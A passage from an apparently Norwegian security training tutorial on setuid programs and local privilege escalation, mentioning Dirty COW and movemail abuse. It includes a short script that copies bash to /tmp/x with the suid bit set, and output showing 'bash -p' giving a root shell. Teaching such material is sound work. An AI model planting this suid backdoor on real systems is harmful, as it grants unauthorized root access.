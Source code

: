 ```sh
$ id
uid=1000(n00b) gid=1000(n00b) groups=...

$ sudo id
uid=0(root) gid=0(root) groups=...
```

> Du kan selv utforske *suid*. Ta en titt på øvelsene i katalogene `~/1_grunnleggende/2_setuid/` og `~/1_grunnleggende/3_injection/`.

En sårbarhet i et program med *suid*-bitet satt lar oss altså gjøre ting på systemet man normalt ikke ville hatt rettigheter til. Derfor vil ikke suid-programmer være skrivbare for andre enn eieren. Hvis du klarer å lure tilgangskontrollen er det trivielt å kjøre vilkårlig kode med samme rettigheter som eieren av filen. Et interessant eksempel på en sårbarhet som muliggjør dette er *Dirty COW* (CVE-2016-5195). Denne sårbarheten er av typen *race condition* eller *TOCTTOU* (*time-of-check to time-of-use*) i *virtual memory*-subsystemet i Linux-kjernen.

Problemet er at *movemail* ikke bare kopierer epost, men kan brukes til å kopiere nær sagt hva som helst -- fra hvor som helst -- til hvor som helst på systemet. Hackeren bruker *movemail* til å installere en *cron*-jobb for *root*, og skaffer seg på den måten full tilgang til maskinen.

### Cron

*Cron* brukes på UNIX-type systemer til å kjøre kommandoer på et angitt tidspunkt, eller ved faste intervaller. Cron-jobber kan opprettes for både ordinære brukere og superbrukeren *root*. Kommandoene kjøres da med brukerens rettigheter.

Man trenger å være *root* for å opprette en *cron*-jobb for *root*.

Hvordan misbruker du dette i praksis? Hva med å få installert en *cron*-jobb for *root* som kjører dette scriptet?

```sh
#!/bin/sh
cp `which bash` /tmp/x
chmod u+s /tmp/x
```

Når *cron* har kjørt scriptet kan hackeren starte programmet `/tmp/x` og ha et interaktivt shell med *root* sine rettigheter. Dette er en type sårbarhet som kalles *LPE* - *Local Privilege Escalation*.

Moderne shell som kjøres *suid* vil av sikkerhetsgrunner droppe *suid*-rettighetene, med mindre man angir `-p` ved start.

```sh
$ stat /tmp/x
Access: (4755/-rwsr-xr-x)  Uid: (0/root)   Gid: (0/root)
         ^                         ^^^^

$ /tmp/x
x-5.0$ id
uid=1000(n00b) gid=1000(n00b) groups=...

$ /tmp/x -p
x-5.0# id
uid=1000(n00b) gid=1000(n00b) euid=0(root) groups=...
                              ^^^^^^^^^^^^
```
